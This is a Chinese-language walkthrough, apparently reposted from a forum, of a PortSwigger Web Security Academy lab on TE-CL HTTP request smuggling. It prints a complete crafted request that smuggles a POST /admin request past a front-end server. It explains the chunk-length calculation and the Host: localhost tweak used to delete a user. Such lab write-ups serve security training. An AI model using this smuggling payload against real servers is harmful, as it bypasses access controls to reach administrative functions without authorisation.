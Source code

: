 # TE-CL绕过前端服务器安全控制

> 原文：[https://www.zhihuifly.com/t/topic/3481](https://www.zhihuifly.com/t/topic/3481)

#### TE-CL绕过前端服务器安全控制

同上面实验相反，前端服务器识别`Transfer-Encoding`，后端服务器识别`Content-Length`

**实验地址**：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl

**实验描述**

本实验包含一个前端和后端服务器，后端服务器不支持`Transfer-Encoding`分块传输。现有一个管理员面板/admin，但被限制直接访问。

要完成本实验，需向后端服务器走私一个http请求以访问到管理员系统并删除名为`carlos`的用户。

**实验过程**

构造走私请求，这里构造请求同上面实验有些差别

```
POST / HTTP/1.1
Host: acc11f291f28854680882dae00df00bf.web-security-academy.net
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=DHsv0QPpKqKpsxRdjanyv0OdA5CUY9cn
Content-Length: 4
Transfer-Encoding: chunked

60

POST /admin HTTP/1.1

Content-Type: application/x-www-form-urlencoded

Content-Length: 12 `x=1

0` 
```

构造请求，提示需要添加`Host:localhost`

![image](img/537d9c4ae8d3d2d97c3e6c00c69f0f71.png)

如果对此处请求体构造有疑问可以查看chunk传输数据的格式

> chunk传输数据格式如下，其中size的值由16进制表示。
> 
> ```
> >[chunk size][\r\n][chunk data][\r\n][chunk size][\r\n][chunk data][\r\n][chunk size = 0[\r\n][\r\n]]
> > 
> ```

因而这里60对应的十进制是：96。恰好等于60以下到0以上数据的长度（包括\r\n）

此处需说明一点，请求包中chunk分块传输的数据库长度必须正确，同时走私请求中的Content-Length长度也需保证正确，否则会提示无法识别或非法请求。

![image](img/ecf956f206291c305e7b37c4e47e95d9.png)

添加`Host:localhost`并修改数据块长度后重新发包

![image](img/ce29f57f447e2ac9d215268f246cb319.png)

修改走私请求为GET方式，多次发送最终成功删除用户。

![image](img/7525b74fd04d03121b7db881f9846668.png)